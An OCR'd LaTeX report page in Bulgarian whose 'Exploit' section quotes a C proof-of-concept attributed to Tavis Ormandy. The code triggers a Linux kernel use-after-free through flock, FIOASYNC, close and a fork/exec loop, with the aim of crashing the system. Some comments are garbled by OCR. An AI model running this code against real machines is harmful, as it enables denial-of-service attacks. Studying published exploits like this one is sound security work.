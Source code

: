 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\subsection{Exploit}
\paragraph{}
Примерен exploit е публикуван от Тавис Орманди.
\paragraph{}
Exploit-ът използва модифициран указател от потребителската памет, като 
целта е да предизвика забиване.
\begin{verbatim}
int main(int argc, char **argv)
{
    int fd;
    pid_t child;
    unsigned flag = ~0;
    fd = open("/dev/urandom", O_RDONLY);
// установяване на екслузивно заключване без блокиране 
flock(fd, LOCK_EX | LOCK_NB);
    // вдигане на ASYNC флага на дескриптора
    ioctl(fd, FIOASYNC, &flag);
    // затваряне на  close the file descriptor to trigger the bug
    close(fd);
    // извършване на операции с цел да се запълни AT_RANDOM, което ще 
предизвика използването на освободеният файл
    // Предполага се, че /bin/true е elf executable4
 и че ядрото 
поддържа AT_RANDOM.
    do switch (child = fork()) {
            case  0: execl("/bin/true", "/bin/true", NULL);
                     abort();
            case -1: fprintf(stderr, "fork() failed, %m\n");
                     break;
            default: fprintf(stderr, ".");
                                 break;
    } while (waitpid(child, NULL, 0) != -1);
    fprintf(stderr, "waitpid() failed, %m\n");
    return 1;}
\end{verbatim}


\part{Статистически анализ}
\end{document}
